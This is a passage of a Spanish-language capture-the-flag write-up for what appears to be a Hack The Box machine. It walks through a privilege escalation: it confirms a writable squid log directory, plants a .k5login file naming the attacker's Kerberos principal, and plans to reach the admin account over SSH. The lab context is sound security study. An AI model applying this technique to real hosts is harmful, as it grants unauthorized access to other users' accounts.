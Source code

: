 Validando en que grupo estamos asignados:

```bash
[j.nakazawa@srv01 ~]$ id
uid=1000(j.nakazawa) gid=1000(j.nakazawa) grupos=1000(j.nakazawa),23(squid),100(users) contexto=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Tenemos asignado el grupo `squid`, intentemos escribir cualquier cosa sobre esa ruta:

```bash
[j.nakazawa@srv01 ~]$ echo "holas" > /var/log/squid/holas
[j.nakazawa@srv01 ~]$ ls -la /var/log/squid/holas
-rw-rw-r--. 1 j.nakazawa j.nakazawa 6 mar  8 16:17 /var/log/squid/holas
[j.nakazawa@srv01 ~]$ cat /var/log/squid/holas
holas
```

Bien, podemos escribir, ahora sabemos que ese archivo `"/holas"` será enviado al directorio `/home/admin`... Pero ¿qué podemos mover a su directorio para poder obtener su sesión?... (Pues aún no lo sé :P)

Y sí, estuve un tiempo pensando, pero no se me ocurrió nada, asi que busque ayuda. La cual me indico: "no te olvides de `kerberos`"...

Intentando desencriptar el mensaje, encontré [este hilo](https://serverfault.com/questions/608928/kerberos-k5login-and-sudo) hablando sobre `.k5login`, además encontré esta definición:

> "The `.k5login` file, which resides in a user’s home directory, contains a list of the Kerberos principals. Anyone with valid tickets for a principal in the file is allowed host access with the `UID` of the user in whose home directory the file resides. One common use is to place a `.k5login` file in root’s home directory, thereby granting system administrators remote root access to the host via Kerberos." [web.mit.edu/.k5login](https://web.mit.edu/kerberos/krb5-devel/doc/user/user_config/k5login.html).

Perfecto, como nos indica, cualquiera con el archivo `.k5login` en su directorio `/home` permitirá obtener una sesión como él (UID). Simplemente el archivo `.k5login` debe contener un usuario válido en el dominio `kerberos`, tenemos a `j.nakazawa@REALCORP.HTB`, asi que generemos el archivo y movámoslo...

> Suppose the user `alice` had a `.k5login` file in her home directory containing just the following line:
>> bob@FOOBAR.ORG
> This would allow `bob` to use Kerberos network applications, such as `ssh`, to access `alice‘s` account, using `bob‘s` Kerberos tickets.

* [Definición de **.k5login** que sirvió como referencia](https://web.mit.edu/kerberos/krb5-devel/doc/user/user_config/k5login.html).

Creemos el archivo:

```bash
[j.nakazawa@srv01 ~]$ echo "j.nakazawa@REALCORP.HTB" > .k5login
[j.nakazawa@srv01 ~]$ cat .k5login 
j.nakazawa@REALCORP.HTB
```

Ahora lo movemos e intentamos conectarnos como `admin` por `SSH`, no sabemos cada cuanto se ejecute el script, asi que vamos validando...
